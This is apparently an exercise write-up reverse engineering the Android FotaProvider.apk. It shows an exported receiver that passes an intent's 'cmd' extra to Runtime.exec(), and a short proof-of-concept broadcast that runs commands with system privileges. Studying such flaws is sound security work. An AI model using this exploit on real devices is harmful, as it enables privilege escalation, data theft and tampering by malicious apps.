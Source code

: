 # Exercise 3 

The goal of this analysis is to reverse engineer the FotaProvider.apk application and identify any code paths that allow execution of arbitrary shell commands. The focus is on determining whether an attacker-controlled application can exploit this path to execute commands as the system user.

1. Decompilation and Manifest Inspection
Using jadx to reverse engineer the APK, we begin by examining AndroidManifest.xml. We identify a suspicious exported broadcast receiver:

```xml
<receiver android:name=".WriteCommandReceiver">
    <intent-filter>
        <action android:name="android.intent.action.AdupsFota.operReceiver" />
    </intent-filter>
</receiver>
```

This broadcast receiver is exported by default, allowing any app on the device to send it intents.

2. Bytecode Analysis of WriteCommandReceiver :
   
Inside the receiver’s onReceive() method, the application handles incoming intents and processes the "cmd" extra as follows:

```java
public void onReceive(Context context, Intent intent) {
    String command = intent.getStringExtra("cmd");
    Runtime.getRuntime().exec(command);
}
```

3. Vulnerability :

Any application on the device can send a broadcast with action android.intent.action.AdupsFota.operReceiver.

If the broadcast includes an extra string with key "cmd", the receiver will execute the command using Runtime.exec().

This execution occurs with the system user's privileges, second only to root.

🧪 Exploitation Proof-of-Concept
An attacker app could exploit this by sending a broadcast intent as shown below:

```java
Intent intent = new Intent("android.intent.action.AdupsFota.operReceiver");
intent.putExtra("cmd", "ls /data");  // Or any other command
context.sendBroadcast(intent);
```
This allows full command execution with high privileges, which could be used to:
- Read sensitive data
- Delete files
- Install/uninstall apps
- Modify system settings

